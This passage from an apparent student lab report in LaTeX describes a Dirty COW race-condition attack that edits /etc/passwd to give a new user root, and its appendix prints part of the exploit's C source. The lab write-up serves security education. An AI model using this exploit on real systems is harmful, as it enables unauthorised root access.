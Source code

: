 \documentclass[a4paper,12pt]{article}
\begin{document}
\\The attack is run using the steps used in section \ref{task1}, task 1. The \texttt{/etc/passwd} file is printed after the attack has stopped, for us to check whether the file has been succesfully modified using the current user privileges. Figure 6 displays the result of executing the program.
\begin{figure}[H]
\centering
\texttt{[image: editpass]}
\caption{Successful Modification}
\label{fig:editpass}
\end{figure}
\noindent The figure has shown that the edit has been successful. However, it can only be validated if we are able to login to the user account and obtain a root shell. To do so, the command \texttt{su hackeduser} is used to login to the specified user account.
\begin{figure}[H]
\centering
\texttt{[image: COWpass]}
\caption{Successful Login with Root Access}
\label{fig:cowpass}
\end{figure}
\noindent With the successful login and the ``\#'' sign visible as shown in Figure 7, the attack is successful and has shown that a dirty COW attack program is able to modify and obtain root privileges without any need for root privileges when executing any command.
\newpage
\section{Appendix}
\subsection{Main Thread: \texttt{cow\_attack.c}}
\label{Appsec:2}
\begin{verbatim}
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
    pthread_t pth1, pth2;
    struct stat st;
    int file_size;

    //Open file in Read-Only mode
    int f=open("/zzz", O_RDONLY);

    //Map file to COW memory using MAP_PRIVATE
    fstat(f, &st);
    file_size = st.st_size;
    map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

    //Find position of target area
    char *position = strstr(map, "2222222222");

    //Create two threads for attack
    pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
    pthread_create(&pth2, NULL, writeThread, position);

    //Wait for threads to finish
    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);

    return 0;
}
\end{verbatim}
\newpage
\end{document}
